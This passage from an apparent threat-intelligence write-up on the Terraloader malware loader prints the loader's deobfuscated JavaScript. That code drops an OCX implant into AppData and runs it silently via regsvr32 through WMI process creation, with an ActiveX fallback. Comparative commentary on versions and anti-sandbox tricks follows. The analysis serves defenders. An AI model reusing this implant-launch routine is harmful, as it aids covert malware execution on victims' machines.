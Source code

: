 ###### The final block is common with the last analysis and executes the implant (ocx file).

  ```js
  path_appdata = path_appdata + get_random_num() + ".ocx";
    if (write_obj(ygahzfm3173, path_appdata, ygahzfm555, ygahzfm81, 1) === 1)
    {
        ygahzfm3173 = "";
        var ControlValue2 = 0;
        arg = 'regsvr32 /s /n /i "' + path_appdata + '"';
        try 
        {
            var wmiObj4 = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2");
            var retValue = wmiObj4.Get("Win32_Process").Create(arg, null, null, 0);
            if (retValue !== 0) {ygahzfm115;}
        } 
        catch (e) 
        {
            try
            {
                ActXobj1.Run(arg, 1, 0);
                ControlValue2 = 1;
            } 
            catch (e) {ControlValue2 = 0;}
        }
    }
}
```

###### We can resume the differences between the both versions :

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Terraloader/2020-04-12/Pictures/Resume.png"></img></center>


###### Like the last analysis, the coding level isn't unique and some parts of the code seems be copied from another work due to differents ways to designing the algorithms and logic of code execution are not the same.

###### We can also observe that the structure used in the payloads are the same, we can note that the group only add anti-forensic and slightly modify the algorithms as new features (with some wrong logic of implementation) :

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Terraloader/2020-04-12/Pictures/layer1.png"></img></center>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Terraloader/2020-04-12/Pictures/layer2.png"></img></center>

<h6>In seeing the way of like organised the code, we can thinking the technics used for created the sample : </h6>

###### For the random values, we have a switch with a random value for select one of type arithmetic operation for the numbers used for decrypt and anti-sandbox :
